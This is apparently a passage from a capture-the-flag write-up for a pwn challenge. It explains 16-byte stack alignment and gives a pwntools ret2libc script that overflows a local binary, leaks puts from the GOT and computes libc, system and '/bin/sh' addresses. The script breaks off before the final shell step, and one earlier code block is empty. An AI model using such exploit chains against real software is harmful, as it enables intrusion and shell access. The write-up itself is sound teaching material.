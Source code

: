 ```py
```

However, we will face this still:

```sh
$ 
[*] Process './chall_patched' stopped with exit code -11 (SIGSEGV) (pid 161176)
[*] Got EOF while sending in interactive
```

So why is that?

#### Number 1 common issue of any Pwn challenges: Stack alignment

https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html

Essentially, before a `call` function is done, RSP has to be 16-bytes aligned. Otherwise, it will cause errors to occur.

There are 2 ways to solve this:
1. Ensure you pad the rest of your payload to 16 bytes
2. add a `ret` address before system is called  

In this case i have done number 2.

#### Final solution
```py
from pwn import *

# setup the binary
elf = ELF("./chall_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")

p = process("./chall_patched")
context.binary = elf


# leaking puts@libc
payload = b'A' * 72 # padding
payload += p64(0x400653) # pop rdi ; ret
payload += p64(0x601018) # puts@GOT into the function argument
payload += p64(0x400490) # puts@plt
payload += p64(0x4005a7) # return to main so we can see output
p.sendline(payload) 

# puts@libc leak
p.recvuntil("make it!\n")
leak = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info("puts@libc leak address: " + hex(leak))

# look for offsets
# objdump -T libc.so.6 | grep -E "(system$|puts$)"
libc_puts_offset = 0x87bd0
libc_system_offset = 0x58740

# strings -t x libc.so.6 | grep "/bin/sh"
sh_offset = 0x1cb42f


# calculate for libc base address first
# then calculate for system address and /bin/sh address
libcbase = leak - libc_puts_offset
system = libcbase + libc_system_offset
sh = libcbase + sh_offset

```